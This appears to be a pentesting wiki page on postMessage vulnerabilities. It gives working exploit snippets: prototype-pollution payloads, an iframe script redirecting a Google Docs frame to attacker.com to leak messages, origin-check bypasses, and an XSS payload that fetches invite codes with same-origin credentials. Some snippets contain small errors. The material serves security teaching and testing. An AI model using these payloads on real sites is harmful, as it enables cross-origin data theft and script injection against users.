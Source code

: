 # PostMessage Vulnerabilities

## Send **PostMessage**

**PostMessage** uses the following function to send a message:

```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')
```

Note that **targetOrigin **can be a '\*' or an URL like _https://company.com._\
__In the **second scenario**, the **message can only be sent to that domain** (even if the origin of the window object is different). \
If the **wildcard **is used, **messages could be sent to any domain**, and will be sent to the origin of the Window object.

### Attacking iframe & wilcard in **targetOrigin **

As explained in [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) if you find a page that can be **iframed **(no `X-Frame-Header` protection) and that is **sending sensitive **message via **postMessage **using a **wildcard **(\*), you can **modify **the **origin **of the **iframe **and **leak **the **sensitive **message to a domain controlled by you.\
Note that if the page can be iframed but the **targetOrigin **is** set to a URL and not to a wildcard**, this **trick won't work**.

```markup
<html>
   <iframe src="https://docs.google.com/document/ID" />
   <script>
      setTimeout(exp, 6000); //Wait 6s
      
      //Try to change the origin of the iframe each 100ms
      function exp(){
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
          }, 100);
      }
   </script>
</html>
```

## addEventListener exploitation

**`addEventListener`** is the function used by JS to declare the function that is **expecting `postMessages`**.\
A code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the **first thing** that the code is doing is **checking the origin**. This is terribly **important **mainly if the page is going to do** anything sensitive** with the received information (like changing a password). **If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints** and change the victims passwords (in this example).

### Enumeration

In order to **find event listeners **in the current page you can:

* **Search **the JS code for** **`window.addEventListener` and `$(window).on` (_JQuery version_)
* **Execute **in the developer tools console: `getEventListeners(window)`

![](<../.gitbook/assets/image (618) (1) (1).png>)

* **Go to **_Elements --> Event Listeners_ in the developer tools of the browser

![](<../.gitbook/assets/image (617).png>)

* Use a **browser extension **like [**https://github.com/benso-io/posta**](https://github.com/benso-io/posta) or [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker). This browser extensions will **intercept all the messages** and show them to you.

### addEventListener check origin bypasses

* If **`indexOf()`** is used to **check **the **origin **of the PostMessage event, remember that it can be easily bypassed like in the following example: `("https://app-sj17.marketo.com").indexOf("https://app-sj17.ma")`\

* If **`search()`** is used to **validate **the **origin **could be insecure. According to the docs of `String.prototype.search()`, the method **takes a regular repression** object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.\
  In regular expression, **a dot (.) is treated as a wildcard**. An attacker can take advantage of it and **use **a **special domain **instead of the official one to bypass the validation, like in: `"https://www.safedomain.com".search("www.s.fedomain.com")`.\

* If **`escapeHtml`** function is used, the function does not create a `new` escaped object, instead it **overwrites properties **of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

### X-Frame-Header bypass

In order to perform these attacks ideally you will be able to **put the victim web page** inside an `iframe`. But some headers like `X-Frame-Header` can **prevent **that **behaviour**.\
In those scenarios you can still use a less stealthy attack. You can open a new tab to the vulnerable web application and communicate with it:

```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```

### postMessage to Prototype Pollution and/or XSS

In scenarios where the data sent through `postMessage` is executed by JS, you can **iframe **the **page **and **exploit **the **prototype pollution/XSS **sending the exploit via `postMessage`.

A couple of **very good explained XSS though `postMessage`** can be found in [https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage\_2.html)

Example of an exploit to abuse** Prototype Pollution and then XSS** through a `postMessage` to an `iframe`:

```markup
<html>
<body>
    <iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
    <script>
        function get_code() {
            document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
            document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
        }

        setTimeout(get_code, 2000);
    </script>
</body>
</html>
```

For **more information**:

* Link to page about [**prototype pollution**](deserialization/nodejs-proto-prototype-pollution.md)****
* Link to page about [**XSS**](xss-cross-site-scripting/)****
* Link to page about [**client side prototype pollution to XSS**](deserialization/nodejs-proto-prototype-pollution.md#client-side-prototype-pollution-to-xss)****

## References

* [https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
